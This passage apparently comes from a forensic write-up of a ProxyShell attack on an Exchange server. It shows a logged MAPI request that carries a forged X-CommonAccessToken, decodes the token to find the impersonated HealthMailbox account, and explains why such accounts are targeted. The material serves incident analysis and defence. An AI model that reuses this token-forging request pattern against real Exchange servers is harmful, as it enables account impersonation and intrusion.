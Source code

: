 ```yml
Request:
  [2023-04-02T04:13:51.7629499Z]
  POST /mapi/emsmdb/?useMailboxOfAuthenticatedUser=true HTTP/1.1
  Content-Type: application/octet-stream
  User-Agent: MapiHttpClient
  X-RequestId: 987fe918-3a50-45eb-9ed8-422805557fd9:1
  X-ClientInfo: 7c8c846c-5b6a-481b-91f4-411db4f4653f:1
  client-request-id: e53a1e01-afdd-4d8d-b831-c7fc948a3458
  X-ClientApplication: MapiHttpClient/15.2.858.2
  X-RequestType: Connect
  X-CommonAccessToken: VgEAVAdXaW5kb3dzQwBBCEtlcmJlcm9zTCJBU1NBU1NJTktJVFRZXEhlYWx0aE1haWxib3g1NWJmNDUwVS1TLTEtNS0yMS0zMDU3NzI2NjgzLTM3NjU3NDY3Ny0yNDMwNDczODU1LTExNDFHBwAAAAcAAAAsUy0xLTUtMjEtMzA1NzcyNjY4My0zNzY1NzQ2NzctMjQzMDQ3Mzg1NS01MTMHAAAAB1MtMS0xLTAHAAAAB1MtMS01LTIHAAAACFMtMS01LTExBwAAAAhTLTEtNS0xNQcAAMARUy0xLTUtNS0wLTIyMDEzMzgHAAAACFMtMS0xOC0yRQAAAAA=
  X-RpcHttpProxyServerTarget: b873bdf4-03cf-4284-9caf-a12440e859e7@assassinkitty.com
  X-FeToBeTimeout: 70
  Authorization: Negotiate [truncated]
  Host: mail01.assassinkitty.com:444
  Content-Length: 0

Response:
  HTTP/1.1 503 Service Unavailable
  Connection: close
  Content-Length: 326
  Content-Type: text/html; charset=us-ascii
  Date: Sun, 02 Apr 2023 04:13:51 GMT
  Server: Microsoft-HTTPAPI/2.0

Response Body:
  <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
  "http://www.w3.org/TR/html4/strict.dtd">
  <HTML><HEAD><TITLE>Service Unavailable</TITLE>
  <META HTTP-EQUIV="Content-Type"
        Content="text/html; charset=us-ascii"></HEAD>
  <BODY>
    <h2>Service Unavailable</h2>
    <hr>
    <p>HTTP Error 503. The service is unavailable.</p>
  </BODY></HTML>
```

```bash
VTWindowsCAKerberosL"ASSASSINKITTY\HealthMailbox55bf450,U-S-1-5-21-3057726683-376574677-2430473855-1141G,S-1-5-21-3057726683-376574677-2430473855-513,S-1-1-0,S-1-5-2,S-1-5-11,S-1-5-15,S-1-5-5-0-2201338,S-1-18-2E
```

This confirms that `ASSASSINKITTY\HealthMailbox55bf450` was the account being impersonated. Identifying this account is critical because `HealthMailbox` accounts are commonly targeted during ProxyShell attacks they have predictable names and sufficient privileges to allow remote PowerShell access, making them an ideal foothold for privilege escalation.

